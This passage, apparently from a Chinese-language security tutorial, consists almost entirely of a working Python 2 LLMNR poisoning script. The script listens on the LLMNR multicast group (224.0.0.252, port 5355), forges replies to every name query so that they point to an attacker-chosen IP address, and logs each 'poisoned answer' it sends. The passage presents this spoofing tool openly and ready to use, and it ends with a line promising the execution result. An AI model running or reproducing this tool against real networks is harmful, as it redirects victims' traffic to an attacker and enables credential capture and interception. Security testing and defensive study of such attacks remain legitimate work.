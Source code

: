 ```
            "NAME"              # Question Name
            "\x00"              # Question Name Null
            "\x00\x01"          # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
            "\x00\x01"          # Class
            "LENGTH"            # Answer Name Length
            "NAME"              # Answer Name
            "\x00"              # Answer Name Null
            "\x00\x01"          # Answer Type ,IPv4(0x0001)? or IPv6(0x001c)?
            "\x00\x01"          # Class
            "\x00\x00\x00\x1e"  # TTL Default:30s
            "\x00\x04"          # IP Length
            "IPADDR")           # IP Address

    def init_socket(self):
        self.HOST = "0.0.0.0"
        self.PORT = 5355
        self.MulADDR  = "224.0.0.252"
        self.las.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 255)
        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP,
                       socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))

    def Answser(self):
        self.las.bind((self.HOST, self.PORT))
        print "Listening..."
        while True:
            data, addr = self.las.recvfrom(1024)

            tid = data[0:2]
            namelen = struct.unpack('>B', data[12])[0]
            name = data[13:13 + namelen]

            data = self.AnswerData.replace('TID', tid)
            data = data.replace('LENGTH', struct.pack('>B', namelen))
            data = data.replace('NAME', name)
            data = data.replace('IPADDR', socket.inet_aton(self.IPADDR))

            print "Poisoned answer(%s) sent to %s for name %s " % (self.IPADDR, addr[0], name)
            self.las.sendto(data, addr)

        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_DROP_MEMBERSHIP,
                       socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))
        self.las.close()

if __name__ == "__main__":
    llmnr = LLMNR_Answer("11.22.33.44")
    llmnr.Answser()

```

最终执行后结果如下图所示：
